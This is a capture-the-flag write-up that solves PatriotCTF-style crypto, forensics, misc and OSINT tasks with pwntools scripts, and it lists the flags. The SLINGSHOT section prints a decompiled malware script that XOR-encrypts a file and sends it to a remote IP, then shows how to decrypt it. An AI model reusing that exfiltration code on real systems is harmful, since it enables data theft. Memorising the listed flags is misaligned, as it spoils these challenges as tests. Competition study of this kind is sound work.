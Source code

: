 
## CRYPTO


## FORENSICS

## BAD BLOOD

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

```py
from pwn import *

while True:
    io = remote("chal.pctf.competitivecyber.club", 10001)

    solutions = [
        b"Invoke-P0wnedshell.ps1",
        b"Invoke-UrbanBishop.ps1",
        b"WinRM",
        b"Covenant"
    ]
    for solution in solutions:
        io.sendlineafter(b">> ", solution)

    io.interactive()

    io.close()
```

<details>
<summary>Flagg</summary>

`pctf{3v3nt_l0gs_reve4l_al1_a981eb}`
</details>


## SLINGSHOT

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

Exporting files from all packets in Wireshark will result in many files called %, etc and one called download.pyc
This file can be decompiled to python using [PyLingual](https://pylingual.io/view_chimera?identifier=b8c58f248600bfa1f83337bd7bb8f6f5a64a16219e56db0e3a2257ca23afc623):

```py
# Source timestamp: 2024-09-17 17:47:38 UTC (1726595258)
import sys
import socket
import time
import math

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993

with open(file, 'rb') as r:
    data_bytes = r.read()

current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))

s.connect((ip, port))
s.send(encrypt_bytes)
```

The program connects to some ip using port `22993`. Follow the TCP stream for traffic at this port in Wireshark to get the output from the python program. The python program can now be reversed with ChatGPT to get the original file.
There is only one problem. The timestamp for when the program was run is needed to decrypt the message. What we have so far is the timestamp for when the file was created.

To get the correct timestamp first try the timestamp `1726595769` and look at the output. The output is very close to correct, but there are some wierd artifacts. We just need to adjust one number at the time until the words of the file are readably correct. We end up with the timestamp `1726595769`:

```py
import socket

# Open file
with open("dump2.bin", 'rb') as f:
    encrypted_bytes = f.read()

# Timestamp
key_bytes = "1726595769".encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(encrypted_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]

# Decrypt using XOR
decrypted_bytes = bytes((a ^ b for a, b in zip(key_bytes, encrypted_bytes)))

# Optionally, save the decrypted data to a file
with open("flag.png", 'wb') as f:
    f.write(decrypted_bytes)
```

This creates an image with the flag printed on to it-.

<details>
<summary>Flagg</summary>

`PCTF{1f_y0o_41n7_f1r57_y0ur3_l457}`
</details>



## MISC

## EMOJI STACK

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

To avoid making it too complivated I desided to try to translate it to Brainfuck. This python script convert the emojies to Brainfuck syntax. Then I ran it in this online [Brainfuck interpreter](https://sange.fi/esoteric/brainfuck/impl/interp/i.html).

```py
code = "👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁08👍🔁34👈👈👈👈👈👈👈👈👈👈👍🔁48👉🔁15👍🔁5e👈🔁07👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍🔁42👉🔁02👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁17👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁14👍🔁20👉🔁06👍🔁51👉🔁0c👍🔁34👉👉👍🔁46👈🔁14👍🔁4d👈🔁01👍🔁51👉🔁04👍🔁20👉🔁03👍🔁2f👉👉👉👉👉👉👉👉👍🔁4d👈🔁17👍🔁42👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁7c👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁0c👍🔁32👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉🔁04👍🔁5e👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍🔁47👈🔁0f👍🔁46👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👉👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁03👍🔁20👈🔁08👍🔁5e👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👈🔁1d👍🔁40👉🔁10👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👍👉👉👉👉👍🔁5e👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈👈💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬👉💬"

code = code.replace("👉", ">")
code = code.replace("👈", "<")
code = code.replace("👍", "+")
code = code.replace("👍", "+")
code = code.replace("💬", ".")

while True:
    try:
        index = code.find("🔁")
        symbol = code[index-1]
        count = int(code[index+1:index+3],16)
        code = code[:index] + symbol*count + code[index+3:]
        print(count)
    except ValueError:
        break
print(code)
```

<details>
<summary>Flagg</summary>

`CACI{TUR!NG_!5_R011!NG_!N_H!5_GR@V3}`
</details>


## MAKING BAKING PANCAKES

### Oppgave

```
Welcome to the pancake shop!
Pancakes have layers, we need you to get through them all to get our secret pancake mix formula.
This server will require you to complete 1000 challenge-responses.
A response can be created by doing the following:
1. Base64 decoding the challenge once (will output (encoded|n))
2. Decoding the challenge n more times.
3. Send (decoded|current challenge iteration)
Example response for challenge 485/1000: e9208047e544312e6eac685e4e1f7e20|485
Good luck!
```

*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

```py
from pwn import *

io = remote("chal.pctf.competitivecyber.club", 9001)

for i in range(1000):
    # Read challenge
    io.recvuntil(b"Challenge: ")
    challenge = b64d(io.recvline())
    challenge = challenge.split(b"|")
    
    # Read challenge number
    io.recvuntil(b"(")
    chall_num = io.recvuntil(b"/", drop=True)
    
    # Decrypt n times
    for n in range(int(challenge[1])):
        challenge[0] = b64d(challenge[0]).decode("utf-8")

    # Concat answer
    answer = (challenge[0] + "|" + str(int(chall_num))).encode('utf-8')
    print(answer)

    # Send answer
    io.sendlineafter(b">>", answer)

io.interactive()
```

<details>
<summary>Flagg</summary>

`pctf{store_bought_pancake_batter_fa82370}`
</details>



## OPTIONAL


## OSINT

## NIGHT SCHOOL

### Oppgave



*PS: Hele oppgaven finnes [her](challenge.md)*

### Løsning

As the name inplies it should be a school and it should be in Fairfax. Therefor the search query was `George Mason University statues three`.

<details>
<summary>Flagg</summary>

`PCTF{Communitas}`
</details>



## PWN


## REV


## WEB

